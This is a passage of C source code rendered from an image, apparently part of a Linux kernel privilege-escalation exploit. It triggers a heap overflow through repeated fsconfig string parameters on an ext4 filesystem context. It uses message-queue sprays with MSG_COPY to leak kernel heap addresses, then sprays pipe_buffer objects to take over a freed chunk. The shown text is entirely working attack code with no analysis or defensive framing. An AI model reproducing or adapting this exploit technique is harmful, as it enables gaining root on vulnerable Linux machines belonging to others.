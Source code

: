     // create hole hopefully
    get_msg(targets[0], recieved, size, 0, IPC_NOWAIT | MSG_COPY | MSG_NOERROR);

    puts("[*] Opening ext4 filesystem");
    fd = fsopen("ext4", 0);
    if (fd < 0) 
    {
        puts("fsopen: Remember to unshare");
        exit(-1);
    }

    strcpy(pat, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA");
    for (int i = 0; i < 117; i++) 
    {
        fsconfig(fd, FSCONFIG_SET_STRING, "\x00", pat, 0);
    }

    // fill it a bit to help prevent potential crashes on MSG_COPY
    stuff_4k(16);

    puts("[*] Overflowing...");
    pat[21] = '\x00';
    char evil[] = "\x60\x19";
    fsconfig(fd, FSCONFIG_SET_STRING, "\x00", pat, 0);
    fsconfig(fd, FSCONFIG_SET_STRING, "\x00", evil, 0);
    puts("[*] Done heap overflow");

    size = 0x1960;
    puts("[*] Receiving corrupted size and leak data");
    // go through all targets qids and check if we hopefully get a leak
    for (int i = 0; i < H_SPRAY; i++) 
    {
        get_msg(targets[i], recieved, size, 0, IPC_NOWAIT | MSG_COPY | MSG_NOERROR);
        for (int j = 0x202; j < 0x202 + (0x1960-0x1010) / 8; j++)
        {
            uint64_t *dump = (uint64_t *)recieved;
            if (dump[j] == 0x2 && dump[j+1] == 0x10 && dump[j+4] == dump[j+5])
            {
                kmalloc_1024 = dump[j-2];
                kmalloc_512 = dump[j-1];

                // delete chunk 1024, chunk 512 already has sprayed pivots
                uint8_t target_idx = (dump[j+4] & 0xff) - 1;

                get_msg(linked_msg[target_idx], recieved, 0x400 - 0x30, 3, IPC_NOWAIT | MSG_NOERROR);

                // spray to replace with pipe_buffer, thanks LIFO!
                for (int k = 0; k < PIPES; k++)
                {
                    if (pipe(pipefd[k]) < 0)
                    {
                        perror("pipe failed");
                        exit(-1);
                    }
                    write(pipefd[k][1], "pwnage", 7);
                }
                break;
            }
        }
        if (kmalloc_1024 != 0)
        {
            break;
        }
    }
    close(fd);
